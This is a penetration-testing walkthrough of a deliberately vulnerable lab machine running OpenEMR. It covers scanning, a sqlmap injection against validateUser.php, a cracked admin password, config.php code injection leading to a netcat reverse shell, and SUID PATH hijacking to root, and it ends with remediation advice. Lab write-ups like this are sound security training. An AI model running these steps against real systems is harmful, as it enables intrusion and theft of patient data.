# Penetration Testing Report – HEALTHCARE

## Target Information

| Field | Details |
|---|---|
| Machine Description | A deliberately vulnerable lab machine for practicing web app exploits, privilege escalation, and post-exploitation to gain user and root access. |
| Target IP | `192.168.0.102` |
| Vulnerability Name | SQL Injection (SQLi) in OpenEMR Login Validation, Weak Admin Password, Remote Code Execution via Config File Manipulation, Privilege Escalation via SUID Binary (Path Hijacking) |
| Port / Service | `TCP 80 / HTTP` |
| Severity | High (8.1) |
| Attack Vector | `CVSS:3.0/AV:L/AC:H/PR:N/UI:N/S:C/C:H/I:H/A:H` |

---

# Proof of Concept (PoC)

## Step 1 – Discover Target IP

```bash
nmap -sn 192.168.0.0/24
```



---

## Step 2 – Scan Open Ports and Services

```bash
nmap -p- -sC -sV $ip --open
```



---

## Step 3 – Discover Directory Using Wfuzz

Used directory fuzzing to discover hidden directories.

```bash
wfuzz -c -w directory-list-2.3-big.txt --hc 404 http://192.168.0.102/FUZZ
```



---

## Step 4 – Discover Login Page

A login page for OpenEMR was identified.



---

## Step 5 – Identify Metasploit Exploit

A suitable exploit module was found in Metasploit.



---

## Step 6 – Extract SQL Injection URL

The exploit revealed a vulnerable SQL Injection endpoint.

```text
http://192.168.0.102/openemr/interface/login/validateUser.php?u=
```



---

## Step 7 – Test SQL Injection Using SQLMap

The vulnerable URL was loaded into SQLMap.

```bash
sqlmap -u "http://192.168.0.102/openemr/interface/login/validateUser.php?u=" --dbs
```



---

## Step 8 – Retrieve Admin Hash

SQLMap successfully extracted the administrator password hash.



---

## Step 9 – Crack Password Hash

The extracted hash was cracked using CrackStation.

Discovered password:

```text
ackbar
```



---

## Step 10 – Login as Administrator

Authenticated access was obtained using the recovered credentials.



---

## Step 11 – Modify config.php

A writable `config.php` file was identified and malicious code was injected.



---

## Step 12 – Achieve Remote Code Execution

The injected code allowed arbitrary command execution through the browser.



---

## Step 13 – Setup Reverse Shell

A Netcat listener was started and the reverse shell payload was URL encoded.

```bash
nc -lvnp 9090
```



---

## Step 14 – Obtain Reverse Shell

The payload executed successfully and returned a shell.



---

## Step 15 – Discover Vulnerable SUID Binary

A SUID-enabled binary named `healthcheck` was discovered.


---

## Step 16 – Create Malicious File

A malicious executable was created for path hijacking.


---

## Step 17 – Replace fdisk Reference

The malicious file was renamed to `fdisk` because the healthcheck binary invokes it.


---

## Step 18 – Modify PATH Variable

The PATH variable was modified so the malicious executable would be executed first.

```bash
export PATH=/tmp:$PATH
```



---

## Step 19 – Execute Healthcheck and Gain Root

The vulnerable SUID binary executed the malicious file, resulting in root privileges.



## PROOF 



---

# Remediation

- Fix SQL Injection using parameterized queries and prepared statements.
- Implement proper input validation and output encoding.
- Enforce strong password policies and multi-factor authentication.
- Restrict write permissions on sensitive files such as `config.php`.
- Remove unnecessary SUID binaries.
- Prevent path hijacking by using absolute paths in privileged applications.
- Update OpenEMR to the latest secure version.
- Conduct regular security audits and vulnerability assessments.

---

# Impact

- Theft of sensitive patient records and healthcare data.
- Administrative account compromise.
- Remote command execution on the server.
- Complete server takeover through privilege escalation.
- Loss of confidentiality, integrity, and availability.
- Potential regulatory and compliance violations.

---

# References

- https://owasp.org/www-community/attacks/SQL_Injection
- https://pages.nist.gov/800-63-3/
- https://owasp.org/www-community/attacks/Code_Injection
- https://gtfobins.github.io/
- https://www.open-emr.org/wiki/index.php/Securing_OpenEMR
